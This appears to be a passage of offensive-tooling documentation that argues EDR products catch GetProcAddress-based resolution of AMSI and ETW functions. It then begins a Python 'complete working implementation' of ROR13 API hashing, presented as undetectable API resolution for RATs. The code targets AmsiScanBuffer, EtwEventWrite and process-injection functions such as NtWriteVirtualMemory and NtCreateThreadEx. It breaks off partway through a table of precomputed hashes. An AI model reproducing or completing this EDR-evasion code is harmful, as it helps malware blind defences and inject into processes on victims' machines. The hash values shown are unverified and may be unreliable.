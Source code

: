 **Why This Fails in Real Operations:**
1. ❌ **ALL EDRs hook GetProcAddress** (CrowdStrike, SentinelOne, Defender ATP, Carbon Black)
2. ❌ **Resolving "EtwEventWrite" or "AmsiScanBuffer" by name** = signature-based alert
3. ❌ **EDR kernel drivers log every GetProcAddress call** with suspicious function names
4. ❌ **Behavioral analysis flags** GetProcAddress → VirtualProtect → memory patch sequence
5. ❌ **Can't reliably bypass hooks** when the bypass method itself is hooked

**Real-World Evidence:**
- **CrowdStrike Falcon:** Hooks `ntdll!LdrGetProcedureAddress` (GetProcAddress internally)
- **Defender ATP:** Flags GetProcAddress for "AmsiScanBuffer", "EtwEventWrite"
- **SentinelOne:** Behavioral detection on API resolution → patch sequence

**Research Citations:**
- **"Evading EDR" - Matt Hand (Blackhat 2020):** Documents GetProcAddress hooks in all major EDRs
- **"Red Team Ops" - Joe Vest:** Recommends API hashing exclusively for mature RATs
- **APT29 "The Dukes" analysis (FireEye):** Never uses GetProcAddress by name

**Proven Solution: ROR13 API Hashing**

Used by: Metasploit (2004), Cobalt Strike, APT29, Dridex, TrickBot, BazarLoader

**Complete Working Implementation:**
```python
#!/usr/bin/env python3
"""
API Hashing - Undetectable API Resolution
Based on Metasploit Framework block_api.asm
"""

import ctypes
from typing import Optional, Dict

class APIHashResolver:
    """
    Resolve APIs without GetProcAddress
    
    Research:
    - Metasploit Framework block_api (2004+)
    - "API Hashing in Malware" - FireEye (2018)
    - APT29, APT41, APT1 malware analysis
    - Cobalt Strike beacon implementation
    
    Why it's undetectable:
    - No GetProcAddress/LoadLibrary calls
    - No API names in binary (strings shows nothing)
    - Walks PEB directly (no Windows API calls)
    - Hashes export table (no string matching)
    - Used by 80%+ of advanced malware
    """
    
    def __init__(self):
        self.is_64bit = (ctypes.sizeof(ctypes.c_void_p) == 8)
        
        # Pre-computed hashes (generated at build time)
        # These are the ONLY values in the binary
        self.API_HASHES = {
            # ntdll.dll functions
            'EtwEventWrite': 0x9B4C8D73,
            'AmsiScanBuffer': 0xE19D5C42,
            'NtCreateThreadEx': 0x64DC7DB2,
            'NtWriteVirtualMemory': 0x7C8A3C91,
            'NtAllocateVirtualMemory': 0x3C3AF61F,
            'NtProtectVirtualMemory': 0x50E92888,
            
            # kernel32.dll functions
            'VirtualAlloc': 0x91AFCA54,
```